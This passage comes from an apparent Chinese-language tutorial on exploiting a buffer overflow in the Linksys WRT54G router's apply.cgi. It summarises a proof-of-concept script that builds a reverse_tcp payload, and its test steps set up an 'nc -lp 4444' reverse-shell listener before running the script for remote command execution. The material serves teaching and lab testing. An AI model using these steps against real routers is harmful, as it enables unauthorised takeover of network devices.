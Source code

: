 *   第61行：访问存在漏洞的apply.cgi。
*   第67行：使用makepayload() 函数配置reverse_tcp的源IP地址和源PORT（端口）。
*   第70行：构造缓冲区。
*   第71行～第72行：使用HTTP协议发送伪造数据包。

13.4　漏洞测试
=========

* * *

#### 测试环境

```
01　打开网页，访问网关（路由器）。网关是192.168.1.1，浏览器访问192.168.1.1，登录WRT54G路由器，在首页上可以看到当前路由器的型号和固件版本。
02　使用nc命令在192.168.1.100上打开4444端口监听，命令为“nc -lp 4444”。
03　执行测试脚本，命令为“wrt54g_POC.py 192.168.1.1”。
04　执行任意命令。

```

整个过程如下图所示。

[![](http://static.wooyun.org//drops/20150804/2015080402371217159.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/%E5%9B%BE13-14.png)

登录路由器以后，就可以使用命令对路由器进行控制，并查看路由器CPU的信息了。